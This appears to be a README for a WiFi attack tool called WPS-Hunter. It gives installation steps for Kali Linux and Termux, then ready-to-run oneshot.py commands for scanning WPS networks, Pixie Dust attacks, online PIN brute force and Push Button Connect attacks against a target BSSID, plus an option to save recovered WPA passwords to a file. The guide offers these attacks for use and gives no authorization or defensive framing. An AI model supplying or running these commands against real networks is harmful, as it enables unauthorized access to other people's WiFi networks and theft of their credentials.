 1. Prerequisites
Hardware
A compatible WiFi adapter that supports monitor mode and packet injection.

General Requirements
Python 3.6 or higher

Root privileges (especially for WiFi operations)

Required system tools: iw, wpa_supplicant, pixiewps

Optional but recommended: aircrack-ng suite

2. Installation Steps
A. On Kali Linux / Ubuntu
Update System and Install Dependencies

bash
sudo apt update
sudo apt install git python3 python3-pip iw wpa_supplicant pixiewps
Clone the Repository

bash
git clone https://github.com/PeterPan9696/WPS-Hunter.git
cd WPS-Hunter
(Optional) Install Additional Python Modules

If the script requires extra modules (e.g., requests), install them:

bash
pip3 install requests
B. On Termux (Android)
Update and Install Packages

bash
pkg update
pkg install git python python-pip root-repo
pkg install iw wpa_supplicant
Install Pixiewps

If available in the repo:

bash
pkg install pixiewps
If not, compile from source (advanced users):

bash
git clone https://github.com/wiire/pixiewps.git
cd pixiewps
make
cp pixiewps $PREFIX/bin/
cd ..
Clone WPS-Hunter

bash
git clone https://github.com/PeterPan9696/WPS-Hunter.git
cd WPS-Hunter
Install Python Dependencies

bash
pip install requests
3. Usage Guide for All Attacks
A. Scanning for WPS Networks
bash
sudo python3 oneshot.py -i wlan0
Replace wlan0 with your wireless interface name.

The tool will scan and list available WPS-enabled networks.

B. PixieWPS Attack
Select Target

Use the scan to identify the BSSID of your target.

Run Pixie Dust Attack

bash
sudo python3 oneshot.py -i wlan0 -b <BSSID> -K
The -K or --pixie-dust flag triggers the PixieWPS attack.

You may be prompted to select a PIN or it will attempt likely ones automatically.

If successful, the WPA PSK (WiFi password) will be displayed.

C. Online WPS Bruteforce Attack
bash
sudo python3 oneshot.py -i wlan0 -b <BSSID> -B
The -B or --bruteforce flag starts an online PIN brute-force attack.

You can specify a starting PIN with -p <PIN> or let the tool generate likely ones.

D. Push Button Connect (PBC) Attack
bash
sudo python3 oneshot.py -i wlan0 -b <BSSID> --pbc
Attempts to connect using the WPS Push Button method.

E. Smart/Resume Bruteforce (Session Recovery)
bash
sudo python3 oneshot.py -i wlan0 -b <BSSID> -B -p <START_PIN>
If a previous session was interrupted, the tool can resume from the last attempted PIN.

F. Additional Options
Save Credentials to File:
Add -w to store found credentials.

Verbose Output:
Add -v for more detailed logs.

Interface Down After Attack:
Add --iface-down to bring the interface down after finishing.

4. Example Attack Workflow
Scan for Targets

bash
sudo python3 oneshot.py -i wlan0
Choose a Target BSSID from the List

Run PixieWPS Attack

bash
sudo python3 oneshot.py -i wlan0 -b <BSSID> -K
If PixieWPS Fails, Try Bruteforce

bash
sudo python3 oneshot.py -i wlan0 -b <BSSID> -B
Store Results

Use -w to save successful credentials.

5. Notes and Troubleshooting
Root Access:
All attacks require root privileges.

Wireless Interface:
Ensure your adapter supports monitor mode and is compatible with your OS.

Termux Limitations:
Some WiFi drivers and monitor mode features may not work on all Android devices.

Missing Modules:
If you see ModuleNotFoundError, install the missing Python module with pip install <module>.
